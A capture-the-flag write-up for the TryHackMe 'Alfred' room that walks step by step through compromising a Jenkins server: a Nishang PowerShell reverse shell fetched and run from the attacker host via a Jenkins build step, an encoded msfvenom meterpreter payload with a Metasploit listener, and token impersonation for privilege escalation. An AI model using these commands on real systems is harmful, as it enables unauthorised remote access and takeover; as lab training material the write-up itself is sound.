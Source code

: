 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444
```

**How many ports are open? (TCP only)**

```
nmap -A 10.10.98.134
```

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); 
Invoke-PowerShellTcp
```

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe
python2 -m SimpleHTTPServer 81
```

**Kali**&#x20;

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.135.134 
set LPORT 1337 
run
```

**Victim**&#x20;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"
Start-Process "shell.exe"
```

<figure><img src="../../.gitbook/assets/image (11) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

```
load incognito 
list_tokens -g
```

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

```
impersonate_token "BUILTIN\Administrators" 
getuid
```

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

```
ps
migrate 668
```

<figure><img src="../../.gitbook/assets/image (2) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
